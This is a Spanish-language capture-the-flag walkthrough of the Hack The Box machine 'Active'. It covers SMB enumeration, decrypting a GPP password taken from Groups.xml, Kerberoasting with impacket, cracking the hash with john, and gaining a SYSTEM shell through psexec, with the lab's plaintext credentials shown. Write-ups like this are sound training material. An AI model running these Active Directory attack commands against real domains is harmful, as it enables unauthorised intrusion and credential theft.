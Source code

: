 # Máquina Active

Enlace a la máquina -> [HackTheBox](https://app.hackthebox.com/machines/Active)

![imagen](https://github.com/user-attachments/assets/2627155e-4736-4c13-9fbf-c411474beee3)

- **Nombre de la Máquina:** Active  
- **Sistema Operativo:** Windows  
- **Dificultad:** Fácil  
- **Plataforma:** Hack The Box  
- **Dirección IP:** 10.10.10.100 
- **Skills**
  - SMB Enumeration
  - Abusing GPP Passwords
  - Decrypting GPP Passwords - gpp-decrypt
  - Kerberoasting Attack (GetUserSPNs.py) [Privilege Escalation]

## Reconocimiento y Enumeración

Comenzamos realizando un escaneo general utilizando Nmap para identificar los puertos abiertos y sus versiones en la IP del objetivo:

```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn -sCV 10.10.10.100 -oN escaneo.txt
```

![imagen](https://github.com/user-attachments/assets/2d064e91-4450-46e2-bb8f-fad0b89176ff)

El reporte de `Nmap` indica que nos encontramos con un Domain Controller de **Active Directory**, ya que se identificaron puertos comunes como el `88` (**Kerberos**), `389` (**LDAP**), `139` y `445` (**SMB**), `53` (**DNS**), entre otros. También se sugiere que el controlador de dominio es **Windows Server 2008 R2 SP1**. 

Además, se identificó el dominio `active.htb` y se agregó a `/etc/hosts` con la dirección IP de la máquina objetivo para una traducción correcta.

![imagen](https://github.com/user-attachments/assets/f2eff7db-b4f6-4eca-b548-33d224f9d69f)

### SMB - 139/445

Al disponer del servicio SMB, procedemos a llevar a cabo una enumeración de los recursos compartidos utilizando `smbmap`.

```bash
smbmap -H 10.10.10.100 --no-pass
```

![imagen](https://github.com/user-attachments/assets/104a78c7-caee-4bec-aa16-2c5f7d928383)

Se observa que el único recurso compartido al que tenemos permisos de lectura es "**Replication**".

```bash
smbclient //10.10.10.100/Replication -N
```

![imagen](https://github.com/user-attachments/assets/64a31bb2-a48d-4ffa-aa5b-849c618ac4d6)

Al revisar la estructura, parece ser una copia de **SYSVOL**. Esto es potencialmente interesante desde el punto de vista de la escalada de privilegios, ya que las directivas de grupo (y las preferencias de directivas de grupo) se almacenan en el recurso compartido **SYSVOL**, el cual es legible para todos los usuarios autenticados.

Dado este contexto, resulta relevante buscar el archivo `Groups.xml`, ya que a menudo contiene credenciales de Active Directory. En este caso, lo encontramos en la siguiente ruta: `Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml`. Luego, procedimos a descargarlo en nuestra máquina local.

```bash
prompt off
recurse on
mget *
```

![imagen](https://github.com/user-attachments/assets/2f94e08c-c7b3-4720-bee9-57b4769f7682)

El contenido del archivo revela la contraseña encriptada `cpassword`.

```bash
grep -Ri password
```

![imagen](https://github.com/user-attachments/assets/6b837349-8ae9-416e-8245-db15689d1b68)

En este punto, es importante señalar que las Preferencias de **Directiva de Grupo (GPP)** se introdujeron en **Windows Server 2008** y permitían a los administradores modificar usuarios y grupos en toda la red, entre otras características. Un caso de uso típico era cuando la imagen base de una empresa tenía una contraseña de administrador local débil y los administradores deseaban cambiarla a algo más seguro de manera retrospectiva. La contraseña definida se cifraba con `AES-256` y se almacenaba en el archivo `Groups.xml`.

Sin embargo, en algún momento de 2012, Microsoft publicó la clave AES en MSDN, lo que significa que las contraseñas establecidas mediante GPP ahora son triviales de descifrar y se consideran fácilmente accesibles.

Bajo este contexto, es posible descifrar la contraseña utilizando la utilidad `gpp-decrypt`.

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```

![imagen](https://github.com/user-attachments/assets/a0ff0246-1573-4a55-ac8b-ebfb5cc77fd8)

Ahora tenemos conocimiento de que la cuenta de dominio `SVC_TGS` tiene la contraseña `GPPstillStandingStrong2k18`.

### Enumeración autenticada

Con credenciales válidas para el dominio `active.htb`, podemos proceder a la enumeración. Ahora tenemos acceso a los recursos compartidos **NETLOGON**, **SYSVOL** y **Users**.

```bash
netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
```

![imagen](https://github.com/user-attachments/assets/5e144676-13b1-4079-8121-629eb6d09f7f)

# Explotación

---

### Kerberoasting Attack (GetUserSPNs.py)

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

![imagen](https://github.com/user-attachments/assets/b1d95cd6-0c27-414f-b14a-d286fcbe805c)

Crackeamos fácilmente el hash utilizando `john` y obtenemos la contraseña en texto plano.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![imagen](https://github.com/user-attachments/assets/1911fdb1-422a-4c4f-8e63-f29530fccdf6)

Validamos con `netexec` para verificar si la contraseña es correcta.

![imagen](https://github.com/user-attachments/assets/fe9e9a8a-fc3b-45a8-a9b8-8a35c4b5d6ee)

Ahora podemos utilizar `impacket-psexec` para obtener un shell como `nt authority\system`.

```bash
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

![imagen](https://github.com/user-attachments/assets/4409a105-571d-45d7-9712-de55292511fd)

```bash
cd C:\Users\Administrator\Desktop
type root.txt
```

![imagen](https://github.com/user-attachments/assets/9e094303-b4b9-4169-bf3e-c35d25a2e083)
